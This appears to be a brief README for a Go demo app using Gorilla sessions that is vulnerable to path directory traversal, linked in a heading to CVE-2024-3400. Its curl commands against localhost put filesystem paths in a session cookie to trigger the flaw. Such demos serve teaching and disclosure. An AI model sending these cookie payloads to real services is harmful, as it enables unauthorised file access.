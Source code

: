 # A Gorilla Session Vulnerable to Path Directory Traversal

``export SESSION_KEY=gorilla
``

``go run escapezoo.go
``

# Path Directory Traversal

``curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
``

``curl --cookie "zoo=$HOME/" http://localhost:8080
``

# CVE-2024-3400 related vulnerability
